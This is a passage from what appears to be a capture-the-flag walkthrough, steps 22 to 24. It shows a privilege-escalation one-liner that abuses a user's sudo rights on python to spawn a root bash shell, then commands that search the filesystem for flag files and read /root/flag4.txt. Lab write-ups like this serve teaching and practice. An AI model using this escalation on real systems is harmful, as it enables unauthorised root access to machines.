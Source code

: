 22. Use python script to use steven's python root privilege to gain root access.

        sudo python -c 'import pty;pty.spawn("/bin/bash")'  

    ![17](/Resources/Images/1/17.png)

23. Search flags.

        find  -iname “*flag*” 2>/dev/null

    ![18](/Resources/Images/1/18.png)

24. Open the file.

        cat /root/flag4.txt
